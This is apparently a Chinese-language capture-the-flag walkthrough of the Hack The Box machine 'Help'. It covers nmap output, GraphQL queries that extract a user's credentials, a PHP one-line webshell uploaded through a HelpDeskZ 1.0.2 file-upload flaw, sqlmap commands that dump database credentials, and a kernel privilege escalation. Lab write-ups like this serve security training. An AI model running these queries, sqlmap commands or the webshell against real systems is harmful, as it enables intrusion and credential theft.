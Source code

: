 ## nmap 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://help.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).

```

## dirsearch

### 80端口

![image-20250325215039367](./Help/image-20250325215039367.png)

扫目录先扫到http://10.10.10.121/support，继续扫扫到下面这些目录，

![image-20250325215054785](./Help/image-20250325215054785.png)

在readme中找到版本号为1.0.2

![image-20250325215213772](./Help/image-20250325215213772.png)

该版本存在[SQL注入和任意文件上传](./https://www.exploit-db.com/exploits/41200)

sql注入需要登录

## 3000端口

查看响应头服务器正在运行express框架

搜到express js query language可以查到graphql

![image-20250325220155752](./Help/image-20250325220155752.png)

![image-20250325220215164](./Help/image-20250325220215164.png)

graphql查询语法[Pwning WordPress GraphQL |渗透测试合作伙伴 --- Pwning WordPress GraphQL | Pen Test Partners](./https://www.pentestpartners.com/security-blog/pwning-wordpress-graphql/)

查询有哪些schema

```
http://help.htb:3000/graphql?query={%20__schema{queryType{name,fields{name,description}}}}
```

![image-20250325222021292](./Help/image-20250325222021292.png)

然后查询username和password

```
http://10.10.10.121:3000/graphql?query={user{username,password}}
```

![image-20250325223025651](./Help/image-20250325223025651.png)

```
username	"helpme@helpme.com"
password	"5d3c93182bb20f07b994a7f617e99cff"
```

```
helpme@helpme.com：godhelpmeplz
```

然后使用该账号密码即可登录

## 突破点

上面查询到helpdeskz 1.0.2存在文件上传漏洞和sql注入漏洞，分别都尝试一下

### 文件上传漏洞

漏洞原理，上传之后的文件名命名时会以当前时间戳的MD5值增加扩展之后进行命名，所以存在爆破的可能性[爆破脚本](./https://github.com/b4rt00/helpdeskz-1.0.2-file_upload)

```
$filename = md5($_FILES['attachment']['name'].time()).".".$ext;
```

上传一句话木马

```
<?php @system($__GET[cmd]);?>
```

![image-20250325230535303](./Help/image-20250325230535303.png)

![image-20250325230552221](./Help/image-20250325230552221.png)

然后反弹shell

![image-20250325231940266](./Help/image-20250325231940266.png)

![image-20250325231953338](./Help/image-20250325231953338.png)

### sql注入

[HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download - PHP webapps Exploit](./https://www.exploit-db.com/exploits/41200)

![image-20250325232802730](./Help/image-20250325232802730.png)

注入点就在上传文件之后，文件下载的url中，注入参数为param[]

使用sqlmap爆出用户名和密码

```
sqlmap -r sql1 -p param[] --batch --dbs
```

![image-20250325233139257](./Help/image-20250325233139257.png)

```
sqlmap -r sql1 -p param[] --batch -D support --tables --threads 10
```

![image-20250325234108983](./Help/image-20250325234108983.png)

```
sqlmap -r sql1 -p param[] --batch -D support -T users --columns --threads 10
```

![image-20250325234205817](./Help/image-20250325234205817.png)

```
sqlmap -r sql1 -p param[] --batch -D support -T staff -C username,password --threads 10 --dump
```

![image-20250325235115941](./Help/image-20250325235115941.png)

sql注入得到admin密码

```
admin：Welcome1
```

ssh连接尝试多个用户名，最后help用户成功登录，

该版本存在内核漏洞，内核提权即可

## 提权

该版本存在内核提取漏洞

![image-20250325233659741](./Help/image-20250325233659741.png)

![image-20250325233654056](./Help/image-20250325233654056.png)

本地下载之后上传到靶机，靶机编译之后运行即可

![image-20250325234013436](./Help/image-20250325234013436.png)